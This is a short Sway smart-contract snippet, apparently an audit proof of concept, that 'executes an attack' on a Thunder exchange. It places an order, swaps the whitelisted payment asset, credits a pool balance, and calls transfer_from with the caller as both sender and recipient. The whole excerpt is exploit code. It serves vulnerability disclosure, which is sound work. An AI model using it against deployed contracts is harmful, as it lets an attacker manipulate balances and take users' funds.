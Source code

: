 ```sway

    //----------------------execute attack --------------------------------//

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Buy,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
     token_id: SubId::from(0x7777777777777777777777777777777777777777777777777777777777777778),
     price: 10u64,
     amount: 1u64,
     nonce: 1u64,
     strategy:stratgey_fixed,
     payment_asset: asset_to_add,
     expiration_range: 1000u64,
     extra_params: extra_parameter,
    };


    thunder_exch.place_order(maker_order);

    //now remove the whitelist token and add another one 

    asset_mngr.remove_asset(0);

    let asset_to_add1 = AssetId::from(0x7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777_7777);
    
    asset_mngr.add_asset(asset_to_add1);

    //STEP 1: call update with new paymentAsset, this is similar to calling the deposit function, its built-in function by us since sway does not allow calling payable funcitons in test suit

    pool.update_balance(asset_to_add1, 20u64); // 20 eth for example

    //STEP 2: add bid order

    pool.transfer_from(caller, caller, 20u64 ) // nothing prevent setting the caller as from or to !
}
```